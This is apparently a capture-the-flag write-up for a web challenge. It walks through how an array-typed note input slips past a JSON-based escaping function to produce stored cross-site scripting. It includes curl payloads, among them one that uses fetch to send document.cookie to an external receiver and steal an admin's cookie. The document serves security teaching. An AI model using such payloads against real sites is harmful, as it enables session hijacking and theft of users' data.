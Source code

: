 **Knowledge**:
- XSS Filter Evation
- Javascript

**Task**: We are given a webserver's logic. The server allows us to submit a note and notify the administrator to check our note.

**Investigation**: 
- A classic scenario of cross-site scripting attacks. A malicious script is not properly sanitized, allowing attackers to store the script persistently within a database.
Victims visiting the webpage hosting the script will cause the script to be fetched from the database and is executed in the browsing context of the victim. Thus, it is possible for the attacker to passively steal victim secret data such as token or cookie.

Having said that, our goal is to inject the script. Fortunately, we are given the server's source to understand how input is sanitized on the server's side:

```javascript
app.post('/', async(req,res)=>{
    // Our note's content is stored in variable 'note'
    const note = req.body.content;
    ...
    // Each note is associated with a note_id and is then stored into database
    const result = await DB.add_note(note_id, note);
    });

app.get('/:id..',recaptcha.middle..,async(req,res)=>{
 
    // Get note base on the id
    const note = DB.get_note(note_id);

    // Sanitize the note before rendering
    const unsafe_content = note.content;
    const safe_content = escape_string(unsafe_content);
    });

    // Render it
    res.render('note_public',{
        content: safe_content,
        ...
        })
```

How does `escape_string` work?

```javascript

  const escape_string = unsafe => JSON.stringify(unsafe). // Convert object to string 
                                  slice(1,-1).            // Leave out the 1st and the last item in the string
                                  replace(/</g,'\\\x3e'). // Escape the '<' globally, every instance will be replaced with x3e
                                  replace(/>/g,'\\\x3c')  // Escape the '>' globally
```

So `unsafe` can be either string, or an object ? This is further confirmed as `extended` is set to true in urlencoded. If we send an array `content[]=hello`, the server will receive an object `['hello']`.
Then `unsafe_content` will be the object `['hello']`. Applying the `escape_string`, we obtain the string `"hello"`. Note that the square brackets disappear because of the slice.

We then test our payload and see how the payload is rendered

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=hello'

#Rendered page html
// Ops! Unescaped double quotes
const note = ""hello"";
const note_id = "659a2173-9b11-43ac-8658-e18dea463263";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);
...
```
The key problem here is the escape_string assumes that unsafe will be string, and the double quotes will be removed by the `slice(1,-1)` to produce a valid string without double quotes. However,
it failed to handle the scenario where an object is converted into a string. As a consequence, it missed handled the square brackets, allowing us to produce double quotes without escaping.
The misused double quotes then pair with existing one, allowing us to inject code in the middle of the `const note`'s line. This observation is further confirmed with the following payload:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d 'content[]=;alert(1);'

#Render page html
// JS engine uses semicolon to separate statements. If a statement is not explicitly terminated with a semicolon, the JS engine will 
// automatically insert semicolon at the end of the statement.
const note = "";alert(1);"";
const note_id = "94d03158-c388-4931-ae18-a3d7149903be";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);

```

We use pipedream.com to host our http receive server. We then use the following payload to obtain cookie of Mike:

```bash
curl -v https://pasteurize.web.ctfcompetition.com/ -d "content[]=;fetch('https://REDACT/'%2bdocument.cookie);"

#Response checked on our receiver:
secret = CTF{Express_t0_Tr0ub13s}
```
